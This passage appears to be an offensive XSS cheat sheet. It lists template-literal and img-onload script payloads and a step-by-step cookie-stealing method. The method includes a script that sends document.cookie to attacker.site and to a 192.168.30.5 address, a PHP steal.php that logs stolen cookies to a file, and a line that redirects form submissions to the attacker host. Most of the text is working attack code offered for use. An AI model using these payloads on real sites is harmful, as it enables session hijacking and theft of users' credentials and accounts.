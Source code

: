 then you can use the following payload to execute JavaScript without terminating the template literal:

```
${alert(document.domain)}
```




XSS tricks

Simple: `<script>alert('xss')</script>` IMG tag onload: `<img src="xxx" onload="javascript:alert('xss')">` `<img src="xxx" onload="alert('xss')">` `<img src="xxx" onload="alert(String.fromCharCode(88,83,83))">`

XSS Exploit

Cookie Stealing

1. Find injection point
    
2. Read the cookie using JS
    
3. Redirect the cookie to attacker server
    
4. Retrieve and install the stolen cookie on browser
    

Example:

```
<script>
var i = new Image(); 
i.src="http://attacker.site/steal.php?q="%2bdocument.cookie;
</script>
```

Note `%2b` = `+`

The `steal.php` could be:

```
$fn = "log.txt";
$fh = fopen($fn, 'a');
$cookie = $_GET['q'];
fwrite($fh, $cookie);
fclose($fh)
```

We can also do some other thing, for example, change `form action` location:


```
document.forms[0].action="http://attacker.site/steal.php";
```


## steal cookies

```
<script>
new Image().src="http://192.168.30.5:81/bogus.php?ouput="+document.cookie;
</script>
```
